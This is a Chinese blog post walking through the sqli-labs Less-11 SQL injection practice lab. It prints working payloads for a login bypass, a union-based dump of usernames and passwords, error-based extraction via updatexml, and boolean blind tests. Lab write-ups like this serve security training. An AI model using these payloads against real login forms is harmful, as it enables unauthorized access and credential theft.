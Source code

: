 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     sqli-labs10-20关  # 标题 
subtitle:      #副标题
date:       2020-06-28         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***Less-11- Error Based- String***

用不同账号登陆有不同回显(也可以使用万能密码登录用户名和密码处填入一处`admin' or 1 #`)，说明可以用联合查询进行注入。

![NHIJBQ.png](https://s1.ax1x.com/2020/07/02/NHIJBQ.png)

![NHIUNn.png](https://s1.ax1x.com/2020/07/02/NHIUNn.png)

抓包进行操作。

![NHHV2t.png](https://s1.ax1x.com/2020/07/02/NHHV2t.png)

当order by 2时页面返回正常，说明字段是2.

`uname=-admin' union select 1,2 #&passwd=admin&submit=Submit`,对应位置回显。

![NHHdZF.png](https://s1.ax1x.com/2020/07/02/NHHdZF.png)

payload: `uname=-admin' union select 2,group_concat(username,password) from users #&passwd=admin&submit=Submit`

![NHHIJA.png](https://s1.ax1x.com/2020/07/02/NHHIJA.png)


在用户名出输入单引号报错，
	
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''admin'' and password='' LIMIT 0,1' at line 1

`'admin'' and password='' LIMIT 0,1`说明可以报错注入，且看出时字符型注入，参数包裹中有单引号。

在用户名处输入`admin '#`成功登录，说明闭合方式只有单引号。

payload:`uname=-admin' and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1)  #&passwd=admin&submit=Submit`,可根据substr一次爆破其余内容(第5关类似)，

![NHqDjx.png](https://s1.ax1x.com/2020/07/02/NHqDjx.png)

用户名处输入`admin' and 1=1 #`和`admin' and 1=2 #`回显不一样，说明可以布尔盲注。
